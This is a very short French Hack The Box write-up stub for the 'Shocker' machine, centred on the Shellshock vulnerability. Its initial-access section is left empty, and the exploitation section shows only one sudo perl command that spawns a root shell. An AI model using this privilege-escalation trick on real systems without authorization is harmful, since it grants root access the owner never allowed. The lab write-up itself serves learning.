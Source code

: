 ```yaml
---
title: "Shocker.htb"
date: 2025-08-05
draft: false
tags: ["htb", "shellshock", "easy"]
---
```


![](image.jpg)

![](difficulty.jpg)

Ce writeup détaille l'exploitation de la vulnérabilité **Shellshock** sur la machine *Shocker.htb* (Hack The Box).

## Accès initial

...

## Exploitation

```bash
sudo /usr/bin/perl -e 'exec "/bin/bash";'
